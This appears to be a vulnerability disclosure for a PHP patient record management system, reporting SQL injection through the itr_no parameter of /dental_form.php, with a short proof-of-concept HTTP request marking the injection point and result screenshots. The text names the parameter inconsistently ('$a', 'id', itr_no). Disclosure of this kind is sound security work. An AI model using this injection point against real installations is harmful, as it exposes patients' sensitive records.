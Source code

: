 # cve# patient-record-management-system-in-php has sql injection in /dental_form.php

## supplier 

https://code-projects.org/patient-record-management-system-in-php-with-source-code/#google_vignette

## Vulnerability parameter

/dental_form.php

## describe

An unrestricted SQL injection attack exists in patient-record-management-system-in-php in /dental_form.php. The parameters that can be controlled are as follows: $a. This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the value of $_GET[itr\_no] parameter is obtained in /dental_form.php , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/437293af-736a-4ea6-af9e-2b13dde80017)



## POC

```
GET /dental_form.php?itr_no=1* HTTP/1.1
Host: healthcarepatientrecordmanagementsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=apub8ggoc8777fmi1n9sbu6ca1
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

**Result**

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)
